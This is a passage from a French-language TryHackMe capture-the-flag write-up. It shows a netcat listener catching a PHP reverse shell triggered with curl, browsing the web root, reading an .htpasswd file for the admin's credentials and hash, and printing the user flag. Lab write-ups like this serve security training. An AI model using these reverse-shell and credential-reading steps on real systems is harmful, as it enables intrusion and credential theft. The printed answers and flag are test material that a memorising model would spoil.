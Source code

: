 ```bash
Grace à cette commande on télécharge notre reverse shell.   

```bash
tim@kali:~/Bureau/tryhackme/write-up$ nc -lvnp 1234
listening on [any] 1234 ...
```

On écoute le port 1234 pour se connecter au reverse shell.    

```bash
tim@kali:~/Bureau/tryhackme/write-up$ curl http://convertmyvideo.thm/php-reverse-shell.php
```

On exécute le reverse shell.   

```bash
$ cd / 
$ cd /var/www/
$ ls
html
$ cd html
$ ls
admin
images
index.php
js
php-reverse-shell.php
style.css
tmp
$ cd admin
$ ls -al
total 24
drwxr-xr-x 2 www-data www-data 4096 Apr 12  2020 .
drwxr-xr-x 6 www-data www-data 4096 Aug 29 21:03 ..
-rw-r--r-- 1 www-data www-data   98 Apr 12  2020 .htaccess
-rw-r--r-- 1 www-data www-data   49 Apr 12  2020 .htpasswd
-rw-r--r-- 1 www-data www-data   39 Apr 12  2020 flag.txt
-rw-rw-r-- 1 www-data www-data  202 Apr 12  2020 index.php
$ cat .htpasswd
itsmeadmin:$apr1$tbcm2uwv$UP1ylvgp4.zLKxWj8mc6y/
```

Dans le site web dans le répertoire admin on trouve les identifiants dans le fichier .htpasswd, qui sont les identifiants de la page qui nous demande des identifiants.    

La réponse est : itsmeadmin    

**What is the user flag**

```bash
$ pwd     
/var/www/html/admin
$ cat flag.txt
flag{0d8486a0c0c42503bb60ac77f4046ed7}
```   
